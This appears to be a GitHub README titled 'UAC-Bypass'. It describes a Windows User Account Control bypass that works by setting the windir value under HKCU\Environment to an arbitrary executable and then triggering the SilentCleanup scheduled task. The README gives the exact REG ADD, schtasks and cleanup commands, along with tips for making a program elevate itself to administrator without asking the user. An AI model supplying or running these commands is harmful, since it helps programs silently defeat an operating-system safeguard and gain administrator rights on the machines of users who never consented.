 # UAC-Bypass
User Account Control bypass for Windows


## Intro
> I am **not** 100% certain about anything in this topic, so feel free to contribute. <br>
> Also, I don't remember where I found it, because it was maybe a year ago.

This method is old af, but works as intended. <br> 
The only downsides of it are:
- creation another instance of the program (if self elevating)
- detected by the anti viruses
- wide known, old and unreliable

## Logic
Create new key in the registry at `HKCU\Environment`, name it `windir`, and as the value put the path to your exe <br>
This can be done by executing a command `REG ADD HKCU\Environment /v windir /d <PathToExe> /f`. <br>
/f is to overwrite this key if it already exists. <br>

Now run the SilentCleanup task from the scheduled tasks. <br>
This can be done by executing a command `schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I` <br>

*(optional)* <br>
And in the end just remove the key by `REG DELETE HKCU\Environment /v windir /f` <br>

## Self elevation
If you want your program to be "ran as the administrator" without asking the user, and you want to use this method, here are some tips: <br>

- First check if your program is already elevated to prevent unnecesary duplication of it's instance. <br>
- Then if it's not, use the method above and exit.
